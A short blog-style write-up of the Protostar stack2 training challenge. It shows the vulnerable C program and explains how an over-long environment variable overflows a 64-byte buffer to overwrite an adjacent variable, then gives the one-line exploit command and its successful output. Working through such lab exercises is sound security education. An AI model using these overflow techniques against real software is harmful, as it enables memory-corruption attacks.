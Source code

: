```yaml
---
layout: post
title: "Protostar stack02 writeup"
tags: [protostar, pwn]
comments: false
---
```


We are given a source code for this challenge
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

For this challenge, you just need to set up an environment variable that contains 64 A's + \x0a\x0d\x0a\x0d
then if you run the program, the program will get the values in teh environment variable using getenv, actually 
getenv gets the address not the actual value but because of that the source code is using pointer, it will save the value in. Which will then copy all of the values in by using strcpy and by overflowing buffer then putting \x0a\x0d\x0a\x0d which will be 0x0d0a0d0a and match the if statement.

```
root@protostar:/opt/protostar/bin# export GREENIE=$(python -c 'print "A"*64+"\x0a\x0d\x0a\x0d"')
root@protostar:/opt/protostar/bin# ./stack2
you have correctly modified the variable
```